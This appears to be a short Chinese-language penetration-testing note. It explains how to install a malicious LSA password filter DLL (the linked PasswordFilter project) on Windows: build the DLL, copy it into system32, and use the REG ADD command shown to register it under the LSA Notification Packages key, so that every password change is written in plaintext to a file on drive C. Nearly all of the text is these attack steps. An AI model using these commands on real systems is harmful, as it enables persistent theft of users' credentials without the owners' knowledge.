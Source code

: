 	https://github.com/3gstudent/PasswordFilter
	visualstudio生成解决方案
	DLL放在%windir%\system32\下
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa下的Notification Packages，添加Win32Project3
![image](/assets/Pentest_Note/master/img/521.png)

	>REG QUERY "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages"
	>REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /t REG_MULTI_SZ /d "scecli\0rassfm\0Win32Project3" /f
	重启之后只要修改用户的密码，即可记录
![image](/assets/Pentest_Note/master/img/522.png)

	文件默认在C盘根目录，可在源码中修改
![image](/assets/Pentest_Note/master/img/523.png)
